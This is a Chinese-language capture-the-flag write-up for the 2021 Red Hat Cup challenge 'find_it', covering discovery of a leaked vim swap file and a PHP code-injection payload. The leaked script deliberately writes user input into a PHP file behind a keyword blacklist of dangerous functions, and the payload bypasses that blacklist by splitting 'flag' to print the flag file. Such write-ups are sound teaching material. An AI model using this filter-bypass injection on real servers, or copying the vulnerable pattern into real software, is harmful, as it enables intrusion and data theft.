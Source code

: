 # 原创
：  2021红帽杯 find_it

# 2021红帽杯 find_it

#### 2021红帽杯 find_it

## 考点

> 
备份文件、源码泄露


## 思路

> 
题目提示我们 `I Can't view my php files?!`，猜测是备份文件，御剑扫一下发现存在 `robots.txt`


> 
访问 `1ndexx.php`，发现并不存在；由于Linux平台下的存在 `.xxxx.php.swp`、`.xxxx.php.swo`、`.xxxx.php`等文件格式，尝试访问一下 `.1ndexx.php.swp`，存在源码泄露


> 
发现过滤了一堆东西，感觉没得啥子可以利用的点了，由于可以写入文件，没有过滤掉 `show_source`，我们利用 `&lt;?php%20show_source("fl"."ag.php");`将flag打印出来


## Payload

> 
1ndexx.php.swp文件源码


```
&lt;?php $link = mysql_connect('localhost', 'ctfhub', 'ctfhub'); ?&gt;
&lt;html&gt;
&lt;head&gt;
	&lt;title&gt;Hello worldd!&lt;/title&gt;
	&lt;style&gt;
	body {
		background-color: white;
		text-align: center;
		padding: 50px;
		font-family: "Open Sans","Helvetica Neue",Helvetica,Arial,sans-serif;
	}

	#logo {
		margin-bottom: 40px;
	}
	&lt;/style&gt;
&lt;/head&gt;
&lt;body&gt;
	&lt;img id="logo" src="logo.png" /&gt;
	&lt;h1&gt;&lt;?php echo "Hello My freind!"; ?&gt;&lt;/h1&gt;
	&lt;?php if($link) { ?&gt;
		&lt;h2&gt;I Can't view my php files?!&lt;/h2&gt;
	&lt;?php } else { ?&gt;
		&lt;h2&gt;MySQL Server version: &lt;?php echo mysql_get_server_info(); ?&gt;&lt;/h2&gt;
	&lt;?php } ?&gt;
&lt;/body&gt;
&lt;/html&gt;
&lt;?php

#Really easy...

$file=fopen("flag.php","r") or die("Unable 2 open!");

$I_know_you_wanna_but_i_will_not_give_you_hhh = fread($file,filesize("flag.php"));


$hack=fopen("hack.php","w") or die("Unable 2 open");

$a=$_GET['code'];

if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/',$a)){
	die("you die");
}
if(strlen($a)&gt;33){
	die("nonono.");
}
fwrite($hack,$a);
fwrite($hack,$I_know_you_wanna_but_i_will_not_give_you_hhh);

fclose($file);
fclose($hack);
?&gt;

```

> 
Payload：


```
先利用 ?code=&lt;?=%20show_source("fl"."ag.php");?&gt; 写入php代码
再访问hack.php

```
